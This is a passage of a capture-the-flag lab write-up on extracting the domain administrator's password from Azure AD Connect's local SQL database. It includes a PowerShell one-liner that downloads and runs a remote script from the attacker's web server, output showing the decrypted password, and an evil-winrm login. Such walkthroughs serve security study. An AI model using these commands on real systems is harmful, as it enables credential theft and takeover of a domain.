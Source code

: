 ## Abusing Azure AD connect

But before we proceed with exploiting it, how does `AD connnect` work?

I found this article: https://blog.xpnsec.com/azuread-connect-for-redteam/
which also aligns with some of the indicators i found above (like the installed programs for example).

In simple terms, this works due to the fact that `Azure AD connect` stores creds locally via sql, and if an attacker has local access (in our case is mhope), they can extract creds without the need to communicate with Azure.

In our case, `mhope` can connect to the local sql db and extract the configuration. Then we can decrypt the configuration and get the creds for the account that does the replication of Active Directory to Azure.

Well, the above appear to be related to `Azure-AD-Connect`and for this matter, i found this script: 
https://github.com/CloudyKhan/Azure-AD-Connect-Credential-Extractor/blob/main/decrypt.ps1

- The script will attempt to: 
    - Connect to the ADSync SQL database.
    - Load the necessary cryptographic library (`mcrypt.dll`).
    - Retrieve and decrypt stored credentials (Domain, Username, and Password).

First start a web server on our host:
```shell
python -m http.server 8888
```

Transfer and run the powershell script:
```shell
iex(new-object net.webclient).downloadstring('http://10.10.14.202:8888/script.ps1')
```

Executing the powershell script on the host:
```shell
Attempting connection: Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync;Integrated Security=True
Error connecting to SQL database. Trying next...
Exception Message: A network-related or instance-specific error occurred while establishing a connection to SQL Server. The server was not found or was not accessible. Verify that the instance name is correct and that SQL Server is configured to allow remote connections. (provider: SQL Network Interfaces, error: 52 - Unable to locate a Local Database Runtime installation. Verify that SQL Server Express is properly installed and that the Local Database Runtime feature is enabled.)
Attempting connection: Data Source=localhost;Initial Catalog=ADSync;Integrated Security=True
Connection successful!
Loading mcrypt.dll from: C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll
Domain: MEGABANK.LOCAL
Username: administrator
Password: d0m@in4dminyeah!
```
great! it revealed plaintext password for the `administrator`

finally lets login
```bash
evil-winrm -i 10.10.10.172 -u administrator -p 'd0m@in4dminyeah!'
```
grabbed root flag `8c9b5fd59f2121d6181a4c2d5ff225d2`
